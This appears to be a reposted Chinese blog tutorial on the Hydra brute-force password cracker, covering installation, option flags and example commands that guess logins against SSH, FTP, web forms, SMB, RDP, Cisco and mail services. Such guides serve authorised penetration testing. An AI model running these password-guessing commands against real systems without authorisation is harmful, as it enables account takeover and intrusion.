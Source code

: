 ```yaml
---
layout: post
title: Linux下的暴力密码在线破解工具Hydra详解
---
```


###一、简介

hydra是著名黑客组织thc的一款开源的暴力密码破解工具，可以在线破解多种密码。官网： http://www.thc.org/thc-hydra，可支持AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP等类型密码。

###二、安装

如果是Debian和Ubuntu发行版，源里自带hydra，直接用apt-get在线安装：

	sudo apt-get install libssl-dev libssh-dev libidn11-dev libpcre3-dev libgtk2.0-dev libmysqlclient-dev libpq-dev libsvn-dev firebird2.1-dev libncp-dev hydra

Redhat/Fedora发行版的下载源码包编译安装，先安装相关依赖包：

	yum install openssl-devel pcre-devel ncpfs-devel postgresql-devel libssh-devel subversion-devel
	hydra下载地址：http://www.thc.org/releases/hydra-7.3.tar.gz
	# tar zxvf hydra-7.0-src.tar.gz
	# cd hydra-7.0-src
	# ./configure
	# make
	# make install

hydra支持GUI图形界面，不过习惯还是命令好用。

###三、参数说明

	hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e ns]
	[-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-f] [-s PORT] [-S] [-vV] 
	server service [OPT]
	
-R 继续从上一次进度接着破解。
-S 采用SSL链接。
-s PORT 可通过这个参数指定非默认端口。
-l LOGIN 指定破解的用户，对特定用户破解。
-L FILE 指定用户名字典。
-p PASS 小写，指定密码破解，少用，一般是采用密码字典。
-P FILE 大写，指定密码字典。
-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。
-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。
-M FILE 指定目标列表文件一行一条。
-o FILE 指定结果输出文件。
-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。
-t TASKS 同时运行的线程数，默认为16。
-w TIME 设置最大超时的时间，单位秒，默认是30s。
-v / -V 显示详细过程。
server 目标ip
service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
OPT 可选项

###使用示例

1、破解ssh：

	hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns ip ssh
	hydra -l 用户名 -P 密码字典 -t 线程 -o save.log -vV ip ssh

2、破解ftp：

	hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
	hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

3、get方式提交，破解web登录：

	hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns ip http-get /admin/
	hydra -l 用户名 -P 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php

4、post方式提交，破解web登录：

	hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"

	hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"

参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中的内容是表示错误猜解的返回信息提示。

5、破解https：

	hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https

6、破解teamspeak：

	hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

7、破解cisco：

	hydra -P pass.txt 10.36.16.18 cisco
	hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable

8、破解smb：

	hydra -l administrator -P pass.txt 10.36.16.18 smb

9、破解pop3：

	hydra -l muts -P pass.txt my.pop3.mail pop3

10、破解rdp：

	hydra ip rdp -l administrator -P pass.txt -V

11、破解http-proxy：

	hydra -l admin -P pass.txt http-proxy://10.36.16.18

12、破解imap：

	hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
	hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

---
*转自[这里](http://www.ha97.com/5186.html)*